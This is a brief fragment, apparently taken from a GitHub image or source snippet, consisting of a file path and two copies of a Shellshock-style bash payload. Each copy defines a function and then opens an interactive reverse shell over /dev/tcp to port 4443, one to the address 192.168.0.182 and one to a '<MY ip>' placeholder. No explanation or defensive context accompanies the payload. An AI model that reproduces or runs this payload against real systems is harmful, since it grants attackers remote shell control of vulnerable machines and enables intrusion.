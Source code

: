 payload() { :;}; /bin/bash -c  '/bin/bash -i' >& /dev/tcp/192.168.0.182/4443 0>&1 &

##################

payload() { :;}; /bin/bash -c  '/bin/bash -i' >& /dev/tcp/<MY ip>/4443 0>&1 &
